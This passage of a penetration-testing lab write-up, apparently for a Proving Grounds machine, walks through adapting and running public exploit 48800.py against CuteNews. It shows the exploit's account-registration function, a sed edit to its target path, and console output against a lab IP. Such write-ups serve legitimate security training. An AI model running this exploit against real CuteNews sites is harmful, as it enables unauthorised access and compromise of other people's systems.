 `` Before using it we have to make some changes in exploit code, since it targets the /CuteNews/ directory``
```python
def register():
    global sess, ip
    userpass = "".join(random.SystemRandom().choice(string.ascii_letters + string.digits ) for _ in range(10))
    postdata = {
        "action" : "register",
        "regusername" : userpass,
        "regnickname" : userpass,
        "regpassword" : userpass,
        "confirm" : userpass,
        "regemail" : f"{userpass}@hack.me"
    }
    register = sess.post(f"{ip}/CuteNews/index.php?register", data = postdata, allow_redirects = False)
    if 302 == register.status_code:
        print (f"[+] Registration successful with username: {userpass} and password: {userpass}")
```
`` Based on the Location of index.php page, the software is installed in webrrot of the server and not in the /CuteNews/ directory. We'll delete that directory from exploit code``
```bash
                                                                      
┌──(dx㉿kali)-[~/Desktop/Proving-ground]
└─$ sed -i 's:CuteNews/::g' 48800.py

                                                                      
┌──(dx㉿kali)-[~/Desktop/Proving-ground]
└─$ grep CuteNews 48800.py         
                                           
```
`` Now we run the exploit ``
``The Exploit need the target url , we supply the ip address of the machine``
```javascript
                                                                      
┌──(dx㉿kali)-[~/Desktop/Proving-ground]
└─$ python3 48800.py           



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://192.168.103.128
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
[-] No hashes were found skipping!!!
================================================================

=============================
Registering a users
=============================
```